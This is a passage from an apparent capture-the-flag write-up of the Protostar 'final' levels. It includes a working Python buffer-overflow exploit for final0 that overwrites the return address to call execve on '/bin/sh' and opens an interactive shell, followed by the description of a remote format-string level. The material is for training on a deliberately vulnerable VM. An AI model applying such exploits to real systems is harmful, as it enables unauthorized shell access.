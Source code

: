 ```shell
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

Now the address of **"/bin/sh"** will be:

$$
0xb7e97000 + 0x11f3bf = 0xb7fb63bf
$$

### Exploit

```python
import struct, socket, telnetlib

HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = "a" * 511 + "\x00" + "aaaabbbbccccddddeeee"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 0xb7fb63bf)
fake_return_address = "AAAA"

exploit = padding + execve + fake_return_address + binsh + "\x00" * 8

# add new line to handle gets()
s.send(exploit + "\n")

# user telnetlib for Client-Server Communication
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

![final0-successful-exploit](/public/image/protostar-final/final0.png)

## Final 1

Description:

>This level is a remote blind format string level. The ‘already written’ bytes can be variable, and is based upon the length of the IP address and port number. <br><br>
>When you are exploiting this and you don't necessarily know your IP address and port number (proxy, NAT / DNAT, etc), you can determine that the string is properly aligned by seeing if it crashes or not when writing to an address you know is good.<br><br>
>Core files will be in /tmp.<br><br>
>This level is at /opt/protostar/bin/final1
